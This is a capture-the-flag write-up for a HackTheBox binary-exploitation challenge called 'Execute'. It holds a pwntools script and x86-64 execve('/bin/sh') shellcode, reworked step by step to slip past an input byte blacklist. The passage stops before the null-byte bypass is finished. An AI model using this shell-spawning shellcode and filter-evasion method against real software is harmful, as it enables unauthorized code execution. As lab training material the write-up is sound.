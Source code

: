 # Execute
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a76f9eac-e18c-4903-866d-87de83421845)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Input bug which leads to direct code execution.
3. Implement ret2shellcode attack.
4. Craft custom shellcode to bypass bad bytes.

## DESCRIPTION:

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f25e6b28-c6a8-437f-9eeb-a910233a9085)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2419960c-7a0c-408f-b15a-22e30567fc39)


2. Interesting! NX is disabled here. Hence it should be easier for us to gain RCE.
3. Upon reviewing the source code, our objective is very straightforward.
4. There is no buffer overflow, we just need to send our shellcode and it shall executed onto the stack.
5. BUT, the problem is there are several filters to our shellcode, which require us to craft our own shellcode.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30e29a82-0d47-489d-82ab-a37bc286363b)

6. The easiest way to check which bytes is filtered, simply craft basic shellcode then compare which byte match the pattern.

> SCRIPT

```py
from pwn import *

exe = './execute'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

blacklist = b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67"
        
shellcode = '''    
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
'''

sc = asm(shellcode)
for byte in sc:
    if byte in blacklist:
        print(f'BAD BYTE --> 0x{byte:02x}')
        print(f'ASCII --> {chr(byte)}')

sh.interactive()
```

#### NOTES:

```
0x68732f6e69622f is a hex representation of strings "/bin/sh".

>>> from pwn import *
>>> print(p64(0x68732f6e69622f))
b'/bin/sh\x00'
>>> 
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fed4fc6d-add2-4362-877b-0674e64ed767)


7. Got several bad bytes and it seems filtered for `/bin/sh` strings, NULL byte, and 59 or execve call.
8. Let's start by manipulate the 59 value. Actually we can just use 0x3a rather than 0x3b then add 1 byte to al (8 bit).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/052f7d17-5df6-40d8-bc3e-2dee49ba34c8)


> UPDATED SHELLCODE

```
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
push 0x3a
pop rax
add al, 0x1
syscall
```

#### NOTES:

```
To obtain the correct asm instructions is using trial and error. If you pass:

mov rax, 0x3a
add al, 0x1

It shall bypassed the 59 filter, but introduced another bad bytes.
```


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/abd28ea7-6743-4bba-bfeb-af7a6a769908)


9. Great! Now let's try to bypass the NULL byte first.
